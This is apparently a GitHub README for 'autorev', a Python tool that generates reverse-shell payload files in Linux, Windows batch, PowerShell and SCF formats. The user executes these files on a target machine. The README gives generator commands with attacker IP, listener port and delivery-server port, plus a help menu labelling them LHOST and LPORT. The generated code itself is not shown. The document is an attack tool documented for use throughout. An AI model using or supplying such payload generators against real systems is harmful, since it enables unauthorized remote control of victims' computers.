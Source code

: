 ![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_banner.png) 

# autorev.sh

The Python Script will generate a (.) extension file with reverse shell codes then you can execute the script on the target [support windows and linux both]

# Usage

## Generating linux

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_lin.png)  

## Generating Windows bat

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winc
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winc.png)  

## Generating Windows ps1

```
python3 <path to autorev>/autorev.py -i 192.168.1.1 -p 443 -s 8000 -f winp
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_winp.png)

### Generating SCF

```
python3 autorev.sh -i <your-ip> -p <your-port> -o <scf-file-name> -f scf
```

![alt text](https://github.com/root-tanishq/autorev.sh/raw/main/images/autorev_scf.png) > All Usage commands will be also generated and print according to the given switches

## HELP Menu

```
-h,        --help   HELP   show this help message and exit
-i IPADDR, --ipaddr IPADDR LHOST Attacker IP address
-p PORT,   --port   PORT   LPORT Port to get reverse shell on [Default 9001]
-o OUT,    --out    OUT    Output File Name [Excluding (.)extension Extension][OPTIONAL]
-f FORMAT, --format FORMAT Define Format for generator [lin | win[c/p](c = cmd | p = powershell) | scf][Default=lin]
-s SERVER, --server SERVER Port to use for generating commands (http://[your-ip]:[PORT]) (Default 80)
```
